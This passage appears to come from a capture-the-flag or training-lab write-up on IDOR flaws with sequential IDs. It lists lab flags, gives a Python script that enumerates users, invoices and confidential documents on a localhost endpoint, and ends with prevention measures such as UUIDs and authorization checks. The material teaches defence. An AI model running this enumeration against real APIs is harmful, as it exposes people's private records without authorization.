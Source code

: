 **Flags:**
- Document 9002: `FLAG{idor_confidential_doc}` - Salary Report with executive compensation
- Document 9004: `FLAG{idor_master_flag}` - API Keys (AWS, Stripe)
- Document 9005: `FLAG{idor_database_dump}` - Customer Database (10M records)

**Explanation:** Most sensitive documents accessible without authorization!

### Automation Script
**Python script to enumerate all resources:**
```python
import requests

base_url = "http://localhost:5000/api/vuln/api-predictable-ids"

print("=== USER ENUMERATION ===")
for user_id in range(1001, 1011):
    response = requests.get(f"{base_url}?userId={user_id}")
    data = response.json()
    if data.get('success'):
        user = data.get('user', {})
        print(f"User {user_id}: {user.get('name')} - {user.get('email')}")

print("\n=== INVOICE ENUMERATION ===")
for invoice_id in range(5001, 5006):
    response = requests.get(f"{base_url}?invoiceId={invoice_id}")
    data = response.json()
    if data.get('success'):
        invoice = data.get('invoice', {})
        print(f"Invoice {invoice_id}: ${invoice.get('amount')} - {invoice.get('customerName')}")

print("\n=== DOCUMENT ENUMERATION ===")
for doc_id in range(9001, 9006):
    response = requests.get(f"{base_url}?docId={doc_id}")
    data = response.json()
    if data.get('success'):
        doc = data.get('document', {})
        print(f"Document {doc_id}: {doc.get('title')} - {doc.get('content')}")
        if 'flag' in doc:
            print(f"  🚩 FLAG: {doc['flag']}")
```

### Prevention Measures
1. **Use UUIDs** instead of sequential integers
2. **Implement authorization checks** - verify user owns the resource
3. **Use indirect references** - map user session to allowed resources
4. **Implement access control lists (ACLs)**
5. **Log and monitor access patterns** - detect enumeration attempts
6. **Rate limit API requests** - slow down automated scanning
7. **Use hash-based IDs** - `sha256(id + secret)` for public references

**Example secure implementation:**
```javascript
// BAD - Sequential ID
GET /api/invoices/5001

// GOOD - UUID
GET /api/invoices/f47ac10b-58cc-4372-a567-0e02b2c3d479

// BETTER - Hash-based reference with authorization check
GET /api/invoices/8f3d7e2a9b1c
// Server verifies: user owns this invoice before returning data
```

---